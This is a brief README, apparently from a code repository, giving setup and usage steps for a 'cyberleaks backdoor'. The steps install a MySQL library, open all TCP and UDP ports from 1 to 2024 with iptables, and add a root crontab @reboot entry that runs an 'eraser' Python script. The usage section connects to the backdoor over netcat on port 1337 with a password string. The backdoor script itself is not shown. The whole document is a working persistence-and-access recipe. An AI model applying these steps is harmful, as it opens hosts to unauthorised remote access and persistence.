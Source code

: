 ## Setting up cyberleaks backdoor

### Install python mysql library:
```
apt install python3-mysqldb
```

### Opening ports:
```
iptables -A INPUT -p udp --dport 1:2024 -j ACCEPT
iptables -A INPUT -p tcp --dport 1:2024 -j ACCEPT
```

### Start on boot:
Open ´crontab -e´ as root:
```
@reboot python3 /root/cyberleaks-eraser.py hostname -I
```

### Reboot:
```
Reboot
```

## Using cyberleaks backdoor

### Netcat
```
nc www.cyberleaks.com 1337
getrekt

```
